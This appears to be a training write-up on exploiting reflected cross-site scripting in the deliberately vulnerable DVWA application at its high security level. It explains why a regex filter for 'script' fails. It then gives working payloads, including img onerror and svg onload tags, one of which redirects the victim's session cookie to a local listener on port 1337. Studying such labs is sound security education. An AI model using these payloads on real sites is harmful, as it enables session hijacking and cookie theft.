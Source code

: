 # Cross-site Scripting (XSS) (High Level)

## Vulnerability Overview

At the high-security level, DVWA attempts to prevent Cross-Site Scripting (XSS) by applying a basic filter using `preg_replace()`. This filter is designed to remove any part of the input that matches the word `script`, targeting typical `<script>` tags.

### Weakness of the Filtering Method
- The filtering is case-insensitive but only looks for the word `script`.
- It does not sanitize other forms of JavaScript injection.
- The application reflects modified input directly into the page without proper encoding.
- The HTTP header disables the browser's built-in XSS protection (`X-XSS-Protection: 0`).

### Summary
Even though DVWA attempts to block script-based XSS with regex filtering, the protection is ineffective due to poor sanitization and output encoding. This makes the application highly vulnerable to modern XSS attacks.

---

# Exploitation

## 1. Triggering JavaScript Execution via XSS

**Payload Used:**
```html
<img src=x onerror="alert('You have been hacked')">
```

This payload uses an `<img>` tag with an invalid `src` attribute, causing a loading error and triggering the `onerror` event. The event executes JavaScript that displays an alert message "You have been hacked".

The payload was reflected in the HTML source code, confirming that arbitrary script execution was possible.

---

## 2. Capturing the Victim’s Session Cookie

**Payload Used:**
```html
<img src/onerror=alert(document.cookie)>
```

This payload demonstrates how an attacker could use XSS to steal a user's session cookie.
- When a victim accesses a URL with this payload, an alert pops up displaying the session cookie.
- In a real-world attack, this method could be combined with phishing to hijack user sessions.

---

## 3. Exfiltrating Cookies to an Attacker-Controlled Server

**Payload Used:**
```html
<svg onload="window.location='http://127.0.0.1:1337/?cookie='+document.cookie">
```

This advanced payload exfiltrates the session cookie to an external server.

### Steps Taken:
1. A local HTTP server was started on port 1337 to listen for incoming connections.
2. When the payload executed in the victim's browser, it redirected to the attacker's server with the cookie attached as a query string.

### Result:
- Successfully captured the victim's session ID and cookie data.
- Simulated a real-world session hijacking attack.
- The server's directory listing confirmed the redirection and cookie capture.

---

# ✅ Done!

This concludes the Cross-site Scripting (XSS) exploitation on DVWA at high security level.
